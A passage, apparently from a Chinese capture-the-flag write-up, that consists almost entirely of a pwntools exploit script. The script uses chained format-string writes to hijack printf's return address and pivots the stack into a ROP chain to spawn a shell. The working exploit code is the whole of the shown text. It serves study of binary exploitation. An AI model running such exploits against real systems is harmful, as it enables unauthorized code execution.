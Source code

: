 ```
rop += p64(0) #r14
rop += p64(0) #r15
rop += p64(csu_call)

rop_addr = rop_addr-0x18
addr1 = rop_addr&amp;0xffff+0x10000
addr2 = (rop_addr&gt;&gt;16)&amp;0xffff+0x10000
addr3 = (rop_addr&gt;&gt;32)&amp;0xffff+0x10000


#0 劫持printf的返回地址，并将指针指向返回地址的下一地址，方便后面迁栈
payload = '%' + str(0xA3) + 'c%23$hhn'
payload += '%' + str((stack-0xa3)&amp;0xff) + 'c%18$hhn'
p.send(payload)
sleep(1)
#1-2为迁栈过程，即不断劫持printf的返回地址，并依次将下一地址修改为指向buf上存放rop串处，并且最终将返回地址改为pop rsp，从而执行rop串
#1 
stack = stack+2
payload = '%' + str(0xA3) + 'c%23$hhn'
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'
tmp2 = tmp1+0xa3
payload += '%' + str((addr1-tmp2)&amp;0xffff) + 'c%13$hn'
p.send(payload)
sleep(1)


#2
stack = stack+2
payload = '%' + str(0x60) + 'c%13$hn'
payload += '%' + str(0xA3-0x60) + 'c%23$hhn'
tmp1 = (stack-0xa3)&amp;0xff
payload += '%' + str(tmp1) + 'c%18$hhn'
p.send(payload)
sleep(1)

#3 继续将返回地址的下一地址修改为指向buf上存放rop串处，并且最终将返回地址改为pop rsp，从而执行rop串
payload = '%13$hn'
payload += '%' + str(pop_rsp&amp;0xffff) + 'c%23$hn'
payload = payload.ljust(0x200,'\x00')
payload += rop
#gdb.attach(p,'b *0x4007C1')
p.send(payload)
sleep(1)
#重新获取shell，并恢复stderr
p.sendline("sh &gt;&amp;2")
p.interactive()
```

这里再说一下rop链的构造
